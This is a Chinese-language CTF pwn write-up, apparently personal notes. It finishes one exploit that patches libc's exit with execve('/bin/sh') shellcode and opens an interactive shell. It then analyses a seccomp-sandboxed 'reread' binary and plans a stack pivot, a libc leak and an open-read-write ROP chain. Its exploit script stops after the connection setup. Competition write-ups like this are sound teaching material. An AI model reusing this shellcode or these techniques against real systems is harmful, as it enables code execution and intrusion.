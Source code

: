 ```python
  

sl(b'inkey')

  

write_mem(code_base + 0x1877, 0x1)

write_mem(libc_base + libc.sym.exit + 4, b'\x90')

write_code(libc_base + libc.sym.exit + 5, b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")

sl(b'bye')

  

p.interactive()
```
![[Pasted image 20241124101731.png]]
这里exit+4与exit+5分别是对应将push rax替换为nop，以及从exit+5开始替换
![[Pasted image 20241124091614.png]]

### reread(复现)
IDA中查看后发现是打开了`sandbox`的，`seccomp`一下
![[Pasted image 20241118143730.png]]
仅允许`read,write,open,dup2`，查了一下`int dup2(int oldfd, int newfd)`可以**让传入的参数`newfd`与参数`oldfd`指向同一文件表项，让`newfd`重定向到`oldfd`所指的文件表项上，如果出错就返回-1，否则返回的就是`newfd`**。
查看vuln，可以看到虽然是个栈溢出，但只能覆盖返回地址。
```c
int __usercall vuln@<eax>(__int64 a1@<rbp>)
{
  __int64 v2; // [rsp-48h] [rbp-48h]
  __int64 v3; // [rsp-8h] [rbp-8h]

  __asm { endbr64 }
  v3 = a1;
  puts(aOkLetSTryYourB);
  read(0, &v2, 0x50uLL);
  return puts("done!");
}
```

思路很明显，可以构造栈迁移，之后泄露出libc基址，再构造ORW的ROP链获取flag。
分两次栈迁移，第一次泄露出libc基址后获取`gadget`，第二次则用于构造新的`read`函数用于读入`orw`的`ROP`链，之后用`orw`链获取`flag`。
详解跳转栈迁移部分[[栈迁移]]
exp:
```python
from pwn import *
import pwnlib.gdb
from wstube import websocket

context(os='linux', arch='amd64', log_level='debug')
local = False
if local:
    p = process('./reread')
    # pwnlib.gdb.attach(p, 'b vuln')
else:
    # p = remote('8.147.132.32', 16837)
    p = websocket("wss://ctf.xidian.edu.cn/api/traffic/qAN9FDoLCgeDcyy9DchD3?port=9999")

elf = ELF('./reread')
```